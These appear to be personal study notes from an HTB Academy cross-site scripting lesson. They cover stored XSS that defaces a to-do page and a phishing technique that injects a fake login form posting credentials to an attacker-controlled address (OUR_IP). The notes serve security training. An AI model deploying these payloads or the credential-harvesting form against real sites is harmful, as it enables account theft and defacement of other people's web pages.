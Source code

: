 > [!TIP]
> It woudl be wise to try running our HTML code locally to see how looks and to ensure that it runs as expected, before we commit to it our final payload.

We wil minify the HTML code into a single line and add it to our previous XSS payloads.
`<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>`
Once we add our payload to the vulnerable TO-do we will see that our HTML code is now permanently part of the web page's source code and shows our message for anyone who visist the page.

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```

# Phishing:
Another very common type of XSS attack is phising attack, usually utilize legitimate-looking information to trick the vitims into sending their sensitive information to the attackes.
A common of XSS Phishing attacks is through injecting fake login from that send that send the login details to the attackers server, which may then be used to log in o behalf of the victim and gain control over their account and sensitive information.
Supposse we were to identify an CSS vulnerability in a web app for a particular organization. We can use such an attack as phising simulation exercise, which will also help us evaluate the Security awareness os the organization
employees.

- XSS Discovery:
We start by attempting to find the XSS vulnerability in the web at [/phishing] for the server at the end of the section, we visit web and see.
This form of image viwers is common in online and similar app, as we have control over the URL, wee can start by using basic XSS payload we using.
And get the dead img url icon
We must run the XSS Discovery process we previusly learned to find a working XSS payload.

> [!TIP]
> To undestand which payload should work, try to view how ur input is displayed in teh HTML source after u add it.

- Login From Injection:?
Once we identify a working XSS payload, we can procceed to the phising attact, to perform and XSS phishing attack, we must inject an HTML code thhat displays a login form on the targeted  page. This form send the login information
to server we are listening on, such that once user attempts to log in.
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
IN the above HTML code, [OUR_IP] which can find with the ip a command unter tun0. We will later be listening on this IP to retrive the credential sent form the form.
```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```